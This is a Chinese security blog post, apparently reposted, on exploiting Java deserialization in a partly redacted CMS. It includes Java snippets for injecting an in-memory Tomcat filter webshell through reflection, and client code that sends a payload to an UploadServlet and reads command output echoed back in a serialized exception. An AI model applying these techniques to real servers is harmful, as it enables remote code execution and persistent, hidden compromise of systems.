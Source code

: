 虽然打厚码，但是好兄弟们依旧知道我在说什么。这个java cms的反序列化点极多，而且报文中没有多少特征。至于这个是不是你们说的0day/1day，我就不清楚了，好兄弟们自行分辨。

首先从任意文件上传说起

任意文件上传分析代码在`servlet.FileReceiveServlet`。在这里我们可以看到，从请求中读取流，然后转换为map类型并读取上传文件的路径。然后再读取待上传的文件。

![图片](https://shs3.b.qianxin.com/butian_public/f3d206c66f1cce2b6bb1ff51994e56d34.jpg)

而网上很多poc，大多都是基于此漏洞，利用反序列化上传一个文件到服务器。

这也就是去年的那个任意文件上传的反序列化漏洞。但是，但是，这个漏洞本质是一个反序列化漏洞。而且某C的classpath中，也存在apache commonscollections库，我们可以利用这个库，直接执行命令或者内存马。岂不是比任意文件上传舒服多了。

### 内存马

老样子，在反序列化中想执行任意代码，一般都依靠xalan这个库。这次也不例外。

植入内存马，关键在于我们怎样找到context，只有找到context，我们才可以添加filter。好在某c中，我们只需要通过下面的代码既可以获取当前context，不需要从tomcat中获取context

```php
        O bject obj = 改动Locator.getInstance().lookup("ServletContext");
        Field contextField = obj.getClass().getDeclaredField("context");
        contextField.setAccessible(true);
        obj = contextField.get(obj);
        Field contextField1 = obj.getClass().getDeclaredField("context");
        contextField1.setAccessible(true);
        addFitlertoTomcat(contextField1.get(obj));
```

剩下的就是常规操作，可以看我之前的内存马模型，基本不需要很大的改动即可完美适配。

![图片](https://shs3.b.qianxin.com/butian_public/f9f7849081d3dcc8fdc3a4551ca97727e.jpg)

### 回显

我们只需要找到这样一个servlet，即存在反序列化的readO bject，又将错误信息写入到response中

不难看出 uploadServlet 就很满足这个需求。

```php
            out = new O bjectOutputStream(output);
            in = new O bjectInputStream(request.getInputStream());
            String dsName = (String)in.readO bject();
            }
        } catch (Exception var14) {
            var14.printStackTrace();
            if (out == null) {
                throw new ServletException(var14);
            }

            out.writeO bject(var14);
```

如果出错的话，将错误信息通过序列化写入到response中。好处在于，我们不需要麻烦的去找tomcat的response对象。

所以，我们将反序列化的payload，发送给uploadServlet即可。然后我们只需要读取响应，即可拿到服务器命令执行的回显结果。客户端代码可以这样写

```php
        byte[] r = HttpClient.post("http://192.168.12.133/servlet/UploadServlet", baos.toByteArray());

        O bjectInputStream O bjectInputStream = new O bjectInputStream(new ByteArrayInputStream(r));
        Exception e = (Exception) O bjectInputStream.readO bject();
        O bject obj = e.getCause();
        Field targetF = obj.getClass().getDeclaredField("target");
        targetF.setAccessible(true);
        obj = targetF.get(obj);
        Field msgF = obj.getClass().getSuperclass().getDeclaredField("detailMessage");
        msgF.setAccessible(true);
        String msg = msgF.get(obj).toString();
        System.out.println(msg);
```

**文章转载于”宽字节安全”公众号，已取得转载授权。**